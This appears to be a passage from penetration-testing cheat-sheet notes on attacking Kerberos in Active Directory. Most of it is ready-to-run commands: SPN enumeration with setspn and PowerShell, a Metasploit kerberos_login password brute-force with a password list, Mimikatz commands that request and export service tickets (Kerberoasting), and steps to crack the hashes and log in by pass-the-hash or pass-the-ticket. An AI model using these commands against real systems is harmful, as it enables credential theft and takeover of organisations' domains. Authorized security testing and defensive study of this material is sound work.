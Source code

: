 - `setspn -Q <service>/<host>` or `setspn -Q */*` for all
- Or:

    ```ps
    $spn = "<service>/<host>"
    $searcher = New-Object System.DirectoryServices.DirectorySearcher
    $searcher.Filter = "(&(objectClass=user)(servicePrincipalName=$spn))"
    $result = $searcher.FindOne()
    if ($result) {
        $result.Properties["name"]
    } else {
        Write-Output "No account found for SPN $spn"
    }
    ```

### Metasploit Kerberos modules

- Start metasploit: `msfconsole`
- Kerberos login: `use auxiliary/scanner/kerberos/kerberos_login`
- Set params:

    ```bash
    set RHOSTS <host>
    set USERNAME <username>
    set PASSWORD <password>
    set DOMAIN <domain>
    set KDC <kdc>
    set VERBOSE true
    run
    set PASS_FILE /path/to/password_list.txt
    unset PASSWORD
    run
    ```

### Mimikatz

- **Request the TGS (Kerberoasting)** with **Mimikatz**:

  ```txt
  privilege::debug
  kerberos::ask /user:<USER> /password:<PASS> /domain:<DOMAIN> \
                /spn:<service>/<host> /target:<SVC ACCOUNT>
  ```
- Export tickets: `kerberos::list /export`

- **Crack the Service‑Account Password**: Feed the extracted `.kirbi` (or converted hash) to Hashcat, John, etc.

- **Ensure Time Sync**. Kerberos requires client and server clocks to match within ~5 minutes so sync your host time with the domain controller.

- **Log In with Cracked Service Account**. Pass‑the‑Hash, Pass‑the‑Ticket, or plain credentials.

- **Check permissions**: `(Get-ADObject -Identity (Get-ADDomain).DistinguishedName -Properties nTSecurityDescriptor).nTSecurityDescriptor.Access | Where-Object {$_.IdentityReference -like '*<SVC ACCOUNT>*'} | Select IdentityReference,ActiveDirectoryRights,ObjectType`
